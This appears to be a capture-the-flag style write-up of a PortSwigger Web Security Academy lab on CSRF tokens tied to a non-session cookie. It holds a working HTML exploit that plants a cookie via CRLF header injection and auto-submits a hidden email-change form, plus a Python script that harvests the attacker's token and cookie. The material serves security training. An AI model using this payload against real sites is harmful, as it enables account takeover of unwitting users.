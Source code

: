 ```yaml
---
title: CSRF where token is tied to non-session cookie
tags:
  - web-app
  - csrf
  - cross
  - site
  - request
  - forgery
---
```


<a href="https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie/">
5. CSRF where token is tied to non-session cookie</a>

This web application is vulnerable to CSRF. An API endpoint and its parameters
are well known, and actions can be taken using a user's cookie without verifying
the redirecting page. The browser reuses the cookie for this site and submits a
POST request on the user's behalf, forging the request. CSRF tokens for this web
application are not correlated with the user's session, but are correlated to
the csrfKey cookie provided by the server.

To solve this, we use an iframe / img tag to coerce the user browser into
visiting the /search endpoint for the website. From here, we can set the users
csrfKey to our cookie. We then use the CSRF token to change the user's email
address, coercing the user's browser into submitting a POST request to change
their email address.

Solution:

```html
<html>
  <body>
    <form
      action="https://<LAB-ID>.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <input
        type="hidden"
        name="email"
        value="pwned&#64;evil&#45;user&#46;net"
      />
      <input type="hidden" name="csrf" value="<CSRF-TOKEN>" />
    </form>
    <img
      src="https://<LAB-ID>.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=<CSRF-COOKIE>%3b%20SameSite=None"
      onerror="document.forms[0].submit()"
    />
  </body>
</html>
```

Script:

```python
# usage:
# python3 5.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net
# --w wiener
# --p peter

import http.client
import re
from argparse import ArgumentParser

import requests

http.client.HTTPConnection.debuglevel = 1


class Solution:
    def __init__(self, url: str, who: str, password: str) -> None:
        self.url = url.rstrip("/")
        self.who = who
        self.password = password
        self.s = None

    def login(self, username: str, password: str) -> requests.Response:
        self.s = requests.Session()
        login_url = f"{self.url}/login"
        r = self.s.get(login_url)
        csrf = re.findall(r"csrf value=([\w]+)", r.text)[0]
        r = self.s.post(
            login_url,
            data={
                "csrf": csrf,
                "username": username,
                "password": password,
            },
        )

        return r

    def solve(self) -> None:
        self.login(self.who, self.password)
        change_email_url = f"{self.url}/my-account"
        r = self.s.get(change_email_url)
        csrf = re.findall(r"csrf value=([\w]+)", r.text)[0]

        print(f"CSRF cookie: {self.s.cookies['csrfKey']}")
        print(f"CSRF token: {csrf}")


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    parser.add_argument("--w", "--who", dest="who")
    parser.add_argument("--p", "--password", dest="password")
    args = parser.parse_args()
    s = Solution(args.url, args.who, args.password)
    s.solve()


if __name__ == "__main__":
    main()
```
